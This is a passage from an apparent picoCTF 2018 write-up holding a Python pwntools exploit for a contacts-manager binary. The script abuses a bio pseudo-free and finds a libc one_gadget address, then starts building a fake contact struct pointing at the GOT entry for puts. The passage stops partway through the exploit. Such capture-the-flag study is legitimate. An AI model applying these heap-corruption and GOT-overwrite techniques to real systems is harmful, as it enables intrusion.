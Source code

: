 ```python


def read_menu():
    p.recvuntil("Enter your command:\n> ")

def get_bio(name):
    read_menu()
    p.sendline("display")
    out = p.recvline_contains(name + " - ")
    bio = out.replace("{} - ".format(name), "")
    log.info("Display: name = '{}', bio = '{}'".format(name, enhex(bio)))
    return bio

def create_contact(name):
    read_menu()
    p.sendline("create {}".format(name))
    log.info("Created name '{}'".format(name))
    #p.recvuntil("Created contact")

def delete_contact(name):
    read_menu()
    p.sendline("delete {}".format(name))
    log.info("Deleted name '{}'".format(name))
    p.recvuntil("Deleted contact")

def set_bio(name, bio):
    read_menu()
    p.sendline("bio {}".format(name))
    bio_len = len(bio)
    p.sendlineafter("How long will the bio be?", str(bio_len))
    if bio_len > MAX_BIO_LEN:
        log.info("Bio for {} pseudo-freed".format(name))
        return
    p.sendlineafter("Enter your new bio:", bio)
    p.recvuntil("Bio recorded.")
    log.info("Bio set for name '{}': {}".format(name, enhex(bio)))

    
def quit():
    read_menu()
    p.sendline("quit")
    log.info("Quitting")

def free_bio(name):
    set_bio(name, "A" * (MAX_BIO_LEN + 1) )

e = ELF(PROGRAM)
libc = ELF(LIBC)

og_proc = process(["one_gadget", "-r", libc.path])
gadgets = og_proc.recvall()
gadget = int(gadgets.split(" ")[1]) # Gadget #0 didn't work...
log.info("One-gadget address for {}: {}".format(LIBC, hex(gadget)))


p = remote("2018shell3.picoctf.com", 29455)
#p = process(PROGRAM)

#Create a fake bio which is crafted to look like a contact struct
bio_as_contact = Contact()
bio_as_contact.p_name = 0;
bio_as_contact.p_bio = e.got["puts"]

```